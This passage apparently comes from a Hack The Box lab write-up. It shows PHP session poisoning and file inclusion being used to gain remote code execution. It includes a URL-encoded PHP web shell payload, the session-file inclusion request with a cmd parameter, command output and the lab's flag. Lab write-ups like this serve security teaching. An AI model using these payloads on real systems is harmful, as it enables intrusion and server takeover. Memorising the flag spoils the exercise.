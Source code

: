 ```
language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

And check again using the `cmd` parameter:

```
/var/lib/php/sessions/sess_5lpvtk301qthsd578ihq05f63r&cmd=id
```

![](../images/Pasted%20image%2020250218165503.png)

We got `RCE`, let's answer the questions:

```
pwd

/var/www/html
```

Answer is:

```
/var/www/html
```

Now, let's search for the flag:

```
ls+/

bin
boot
c85ee5082f4c723ace6c0796e3a3db09.txt
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Got it, let's read it:

![](../images/Pasted%20image%2020250218170217.png)

Got our flag:

```
HTB{1095_5#0u1d_n3v3r_63_3xp053d}
```

